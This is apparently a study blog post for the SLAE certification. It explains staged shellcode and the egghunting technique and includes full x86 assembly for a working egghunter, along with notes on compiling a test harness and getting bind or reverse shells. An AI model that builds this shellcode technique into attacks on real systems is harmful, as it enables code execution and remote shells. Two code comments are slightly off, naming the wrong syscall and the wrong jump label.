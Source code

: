 ```yaml
---
layout: single
title: "SLAE: Staged Shellcode Payload via Egghunting"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-20
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```


_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_3)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and examine staged shellcode containing the "Egghunting" technique.

"But Why do we need staged shellcode? Can't we just pwn it!!?"

Sometimes the amount of space in bytes that we have control over initially is too small, so the initial payload simply goes and retrieves the second part of the payload from the attacker, C2 etc.

Egghunting expands on the above by prepending a byte sequence (egg) at the beginning of your final shellcode, so that the "whole egg" can be located in memory and executed.

Contrived example:
   * we place our shellcode with the egg prepended twice in memory
   * We tell the egg hunter to look for our egg, it does this by checking current memory address for our "egg" eg "0x50905090"
   * If not there, move onto next memory address
   * once it is located, make sure there are two instances next to each other (8bytes) to avoid finding your hunter which will obviously contain one instance of our code
   * Once located, jmp to the located shellcode!

In addition to the above, an egghunter must be resilient to errors and take up minimal space.

How can we do this with code?
   * We will need to make use of the access syscall in a loop, to tell whether or not a page of memory is accessible. (access syscall is perfect as it requires only one argument, and simply checks it can access memory, it does not write anything)
   * If the current memory page is not accessible, we move up one memory page, using page_align
   * If the memory IS accessible, we will look for our prepended egg by comparing the pointer with our egg

![access](/assets/images/SLAE_3/1.JPG)

How does page align work?

Consider the below binary values, and remember how the bitwise operand [or](https://en.wikipedia.org/wiki/Bitwise_operation#OR) works.

Any value lower than 4095 will become 4095 when or'ing it, and after we increment by 1 (making it 4096) and or again, we will get 8191. When we increment THAT and or again, we get 12287. This makes perfect sense as we look at the binary values below, keeping or in mind.

>4095  = 0000 ‭1111 1111 1111‬

>4096  = ‭0001 0000 0000 0000‬

>8191  = ‭0001 1111 1111 1111‬

>8192  = ‭0010 0000 0000 0000‬

>12287 = ‭0010 1111 1111 1111‬

How DO we do this with code?
```
global _start			

section .text
_start:
    ; lay our egg
    xor ebx, ebx
    xor ecx, ecx
    mov ebx, 0x50905090 ; egg
    mul ecx ; this one instruction sets both eax and edx to 0, this is because mul results are stored in EAX and EDX

    ; build page_align
    page_align:
    or dx, 0xfff ; set dx to 4095, 4096 contains nulls!!

    ; build next_addr
    next_addr:
    inc edx ; as explained above, necessary to move forward after or operation, to a multiple of 4096
    pushad ; push all registers onto the stack to preserve them during syscall
    lea ebx, [edx+4] ; point to path being validated
    mov al, 33 ; mov syscall value for accept
    int 0x80
    cmp al, 0xf2 ; after we interrupt, check if the return value that of EFAULT
    popad ; return the registers we preserved earlier
    je page_align ; if EFAULT present jump to page_align
    cmp [edx], ebx ; see if our egg is inside address of edx
    jne next_addr ; egg not inside? jump to address_check, otherwise continue
    cmp [edx+4], ebx ; perform second check to vet out our hunter from result]
    jne next_addr ; second egg not inside? jump to address_check, otherwise execute
    jmp edx ; jump to past where we found the egg and execute code
```
We test out our egg hunter by modifying the c code from our previous assignments, and simply add another variable that contains our egghunter and change the return argument from the shellcode to our egghunter, so the value is stored in memory but never called directly.

Here is a copy of the code, we compile with ```gcc -fno-stack-protector -z execstack shellcode.c -o shell```

As below, testing with shellcode gives us a shell:

![shell1](/assets/images/SLAE_3/2.JPG)

**Something very, very cool about this compiled binary: if we run ``strace`` on it, we can see it smashing through the addresses until it hits our egg, builds our socket, dups the fds and sends the shell!**

We will modify our [previously built](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) shellcode wrapper to allow for [multiple payloads](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_3/egg_wrapper.py), as below we spin up a BIND shell and successfully connect:

![generate_and_compile](/assets/images/SLAE_3/3.JPG)

![connect_to_shell](/assets/images/SLAE_3/4.JPG)

Egg hunt complete!!
